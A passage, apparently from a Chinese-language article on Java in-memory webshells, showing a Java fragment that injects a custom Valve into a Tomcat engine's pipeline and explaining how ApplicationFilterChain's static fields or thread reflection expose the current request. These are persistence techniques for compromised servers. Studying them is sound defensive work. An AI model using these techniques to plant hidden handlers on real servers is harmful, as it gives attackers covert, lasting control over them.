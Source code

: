 ```java

//        Method getPipeline = getMethod("org.apache.catalina.Container", "getPipeline", null);
//        Object pipeline = getPipeline.invoke(standardEngine, null);
        Pipeline pipeline = standardEngine.getPipeline();

//        Class Valve = getClass("org.apache.catalina.Valve");
//        Method addValve = getMethod("org.apache.catalina.Pipeline", "addValve", Valve);
//        addValve.invoke(pipeline, new MyValve());
        pipeline.addValve(new MyValve());
    }

```



### 3.3 ApplicationFilterChain

这里介绍一种静态方法获取request。

`org.apache.catalina.core.ApplicationFilterChain#internalDoFilter`方法中，当ApplicationDispatcher.WRAP_SAME_OBJECT为true时，会将request/response暂存在静态变量中，最后的finally代码块中会对相关静态变量的值置空，所以在Servlet中比较适用该方法。当然，漏洞点发生在Filter中时，我们通过反射遍历所有线程的lastServicedRequest也是有可能可以拿到的（Tomcat 6中不存在这些字段，无法使用）。

![ApplicationFilterChain](Java应用内存马/ApplicationFilterChain.png)
